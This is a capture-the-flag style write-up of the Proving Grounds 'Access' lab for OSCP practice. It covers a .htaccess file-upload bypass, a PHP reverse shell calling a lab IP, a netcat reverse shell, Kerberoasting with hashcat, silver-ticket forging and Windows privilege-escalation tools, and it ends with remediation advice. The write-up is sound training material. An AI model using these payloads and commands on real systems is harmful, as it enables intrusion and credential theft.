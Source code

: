 ```yaml
---
layout: writeup
title: Access - Proving Grounds
date: 2024-07-12 13:32:20 +0300
description: A Writeup of the Access Box from Proving Grounds
image: # /assets/images/Access/Access.png
fig-caption: # Add figcaption (optional)
tags: [TJ Null, LainKusanagi, Windows, Active Directory, WerTrigger, Invoke-RunasCs]
---
```


Today I'm doing a writeup for a [Hack The Box](https://app.hackthebox.com/profile/2013658) box from both TJ Null’s OSCP [lab prep list](https://docs.google.com/spreadsheets/u/1/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/htmlview#)and LainKusanagi’s [list of OSCP like machines](https://www.reddit.com/r/oscp/comments/1c8pzyz/lainkusanagi_list_of_oscp_like_machines/). It is called Active, and it is rated Intermediate by Proving Grounds and Very hard by the community. As usual, we get started with an nmap scan. I'm using my own [custom script](https://github.com/pentestpop/verybasicenum/blob/main/vbnmap.sh) for this which (gives more detail but) shows these open ports:

```
PORT     STATE SERVICE
53/tcp   open  domain
80/tcp   open  http
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
```

It looks like we may be working with a domain controller here so I get started with the usual beginning enumeration: SMB access without auth (denied), adding the target to `/etc/hosts` (access.offsec), running feroxbuster on the web port, checking `enum4linux` (nothing), and checking if there are any unusual ports. We don't see anything especially interesting with TCP or UDP, though we do also have port 5985 so perhaps winrm access in the future. Then it's time to check out the web page:

![Access2.png](/assets/images/Access/Access2.png){: .center-aligned width="600px"}

I check around looking for anything interesting and checking input fields for SQL injection. Looks like nothing here in the `Contact Us` form, but maybe there's an interesting reason why the PHP Email Form Library can't be loaded. 

![Access3.png](/assets/images/Access/Access3.png){: .center-aligned width="600px"}

One field that is almost certainly interesting is when we click the `Buy Now` button for tickets, we get an Upload Image option to go with our name and email. I upload a test `.jpg` and find it in the `/uploads` directory. 

![Access4.png](/assets/images/Access/Access4.png){: .center-aligned width="600px"}

We know that the server uses PHP for a few reasons (Apache server, the names of some of the return files in feroxbuster, the screenshot above), so the goal is probably to upload a PHP file in some way. A simple php file is not allowed, which we can confirm by testing it:

![Access5.png](/assets/images/Access/Access5.png){: .center-aligned width="600px"}

But maybe we can upload something else. I try `.phptml`,`.php5`,`.pHP7`, but none of them work, and I assume we need to try a different approach. Uploading `.php.jpg` works, but it doesn't execute. I checked my notes and decided to try uploading a `.htaccess` file to help me execute a different file extension as php. I created the file with: `echo "AddType application/x-httpd-php .pop" > .htaccess`, and succeeded in uploading the file. Then I was able to upload `ivan445.pop`. Unfortunately when I selected it, I got an error: 
```
DAEMONIZE: pcntl_fork() does not exists, moving on...
SOC_ERROR: 10060: A connection attempt failed because the connected party did not properly respond after a period of time, or established connection failed because connected host has failed to respond
```

I think this is the error from the ivan php reverse shell, so that would mean that it did in fact execute. Maybe I can upload something else to prove it. I create `info.pop` with `<?php phpinfo();?>` and then  upload it. This time it clearly executes, so we're on the right track.

![Access6.png](/assets/images/Access/Access6.png){: .center-aligned width="600px"}

I just did HTB/Updown **Add link** which used a tool called [dfunc_bypasser](https://github.com/teambi0s/dfunc-bypasser/tree/master) to check which dangerous PHP modules should be disabled, meaning for my purposes which can be exploited. I get this list:
```
Please add the following functions in your disable_functions option: 
pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,error_log,system,exec,shell_exec,popen,proc_open,passthru,link,symlink,syslog,ld,mail
If PHP-FPM is there stream_socket_sendto,stream_socket_client,fsockopen can also be used to be exploit by poisoning the request to the unix socket
```

One that sticks out to me is `proc_open` because I know there is a [revshells](revshells.com) php shell that uses it. So I decided to make a file out of that which looks like this:

```
<?php
$proc=proc_open("bash -c 'bash -i >&/dev/tcp/10.10.14.3/445 0>&1'",
  array(
    array("pipe","r"),
    array("pipe","w"),
    array("pipe","w")
  ),
  $pipes);
print stream_get_contents($pipes[1]);
?>
```

That failed too. Then I realized I was using my IP address for HTB which starts with `10.10...` whereas Proving Grounds starts with `192.168...`. So I update my [ivan sincek](https://github.com/ivan-sincek/php-reverse-shell) with the correct IP, upload it and it works. Oops. 

![Access7.png](/assets/images/Access/Access7.png){: .center-aligned width="600px"}

I look around for a bit, and I see that there is a `svc_mssql` user in `C:\Users`, even though we don't have a port 1433 showing open. I look around for a bit and run some initial scripts including winpeas.exe. I don't find anything especially interesting, but I do find something when I use `adPEAS.ps1`. This checks for kerberoastable users, which we could do with Rubeus or something else, but it makes it nice and easy. Plus, we find something for the `svc_mssql` user:

![Access8.png](/assets/images/Access/Access8.png){: .center-aligned width="600px"}

I copy this to my machine and try to crack it with hashcat, and it cracks quickly with: `hashcat -m 13100 mssql.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force`. We get the credentials `mssql_svc`:`trustno1`. 

I went back with these credentials and tried to see what access I had with wirnm (none) and smb (some, but nothing on the shares). Then I tried to use `Invoke-RunasCS.ps1` from[antonioCoco](https://github.com/antonioCoco/RunasCs/tree/master), but I couldn't get that working. I furthermore couldn't find anything interesting doing manual enumeration. I did try to get a silver ticket with impacket-ticketer by importing `PowerView.ps1` to grab the domain SID and Target SPN of the  `SVC_MSSQL` user. I needed the NTLM hash too, but since I already had the password, it was easy to use [CodeBeautify.org](https://codebeautify.org/ntlm-hash-generator) to generate it. The full command was `impacket-ticketer -nthash F773C5DB7DDEBEFA4B0DAE7EE8C50AEA -domain-sid S-1-5-21-537427935-490066102-1511301751 -domain access.offsec -spn MSSQLSvc/DC.access.offsec -user-id 500 Administrator`. I couldn't get that ticket working though. 

I also checked bloodhound and did a dump of the ldap info with `ldapdomaindump`. I did notice a few kernel exploits, but I'd been hoping to avoid those, as they are often not the intended path for these labs. 

I got stuck here for a while before going back to `Invoke-RunasCs.ps1`. I tried it previously, but the issue was part of my syntax I guess. When trying to use it with the `nc.exe` binary, I did see it working in one directory and failing in another, so that was annoying. Same version and everything, I copied it from the failing directory to the working on. Ultimately the command was `Invoke-RunasCs svc_mssql trustno1 'c:/xampp/htdocs/uploads/nc.exe 192.168.45.204 4444 -e cmd.exe'`. If you run the `nc.exe` binary from `C:\Users\svc_apache\nc.exe`, it fails with an error: 
```
[*] Warning: The logon for user 'svc_mssql' is limited. Use the flag combination --bypass-uac and --logon-type '8' to obtain a more privileged token.
[-] RunasCsException: CreateProcessWithLogonW logon type 2 failed with error code: Access is denied
```

Running it again with the `--bypass-uac` and `--logon-type '8'` does not fix it. It turns out, because you are running it as the passed user (`svc_mssql`), you must run it from a directory that they are allowed to run it from.  Lesson learned. Regardless, once I run it correctly, I get a shell:

![Access9.png](/assets/images/Access/Access9.png){: .center-aligned width="600px"}

Interesting, it looks like we have a new privilege: `SeManageVolumePrivilege`. I think I even have an exploit in my server folder for that. I can simply download the latest release of `SeManageVolumeExploit.exe` from [this](https://github.com/CsEnox/SeManageVolumeExploit/releases/tag/public)github repo from `CsEnox`, and run it on the machine as is: `.\SeManageVolumeExploit.exe`. 

![Access10.png](/assets/images/Access/Access10.png){: .center-aligned width="600px"}

Now - my privileges have not changed. But I can list and read files on any part of the `C:\` including the `root.txt` flag.

![Access11.png](/assets/images/Access/Access11.png){: .center-aligned width="600px"}

I think this is technically enough for the OSCP, at least as far as the scoring goes. Maybe they don't count it if you don't get a privileged user, but for the screenshot you just have to have a screenshot with the ouput of `ipconfig`, `hostname`, and `type root.txt`. But we might as well get the SYSTEM access as well, given that it should be doable if we can write any file. This is more intuitive on Linux - we can just edit `/etc/password` or add a root ssh key or something. But for Windows, it's a bit less simple,but very doable. We can use an exploit called `WerTrigger.exe`, which we can find [here](https://github.com/sailay1996/WerTrigger). The instructions are very simple, and only require you to upload three files to the machine:

1. As an administrator, copy `phoneinfo.dll` to `C:\Windows\System32\`
2. Place `Report.wer` file and `WerTrigger.exe` in a same directory.
3. Then, run `WerTrigger.exe`.
4. Enjoy a shell as NT AUTHORITY\SYSTEM.

Well I tried that, and it didn't work. 

![Access12.png](/assets/images/Access/Access12.png){: .center-aligned width="600px"}

Then I tried [FileWrite2system](https://github.com/sailay1996/FileWrite2system), which didn't work either. Then I tried [UsoDllLoader](https://github.com/itm4n/UsoDllLoaderc), same thing. I tried adding a malicious `.dll` to `C:\Windows\System32\wbem\tzres.dll` and running `systeminfo`, and then adding a malicious `.dll` to `C:\Windows\System32\edgegdi.dll` and triggering it with `Update-MpSignature`. Both of those suggestions I found in a [list](https://github.com/sailay1996/awesome_windows_logical_bugs/blob/master/FileWrite2system.txt) with similar vulnerabilities for logical bugs. 

I checked for other writeups, and I found nothing suggested beyond what I'd already tried. I checked the Offsec Proving Grounds Discord and found only other people with similar difficulties. The only one who'd said they solved it just used the same `SeManageVolumeExploit.exe` that I did that helped them to read the file, but not get a SYSTEM shell. So I'm going ot have to call it. I'm sure there's a way to do the box, but it doesn't appear to be through the intended vulnerability. 

### Lessons Learned
- You have to run `Invoke-RunasCs` from a directory that the user you are trying to run commands as can access. 
- We can upload `.hataccess` so that custom extensions are executed as we say.
- The `SeManageVolume` privilege can help us to read any file.

### Remediation Steps
- Don't allow us to upload the `.htaccess` file allowing us to upload `.pop` file and execute them as `.php`, maybe this could be accomplished with an allow list. 
- Restrict the access to the `/uploads` directory entirely actually. There's no need for users of the site to access it. 
- Prevent us from kerberoasting the `svc_mssql` user, perhaps by removing the SPN if unnecessary or using a managed service account. 
- Furthermore enforce a stronger password - `trustno1` isn't going to cut it. 
- Don't allow the `svc_mssql` user the `SeManageVolume` privilege if unnecessary. 
- Other than that, great stuff apparently.
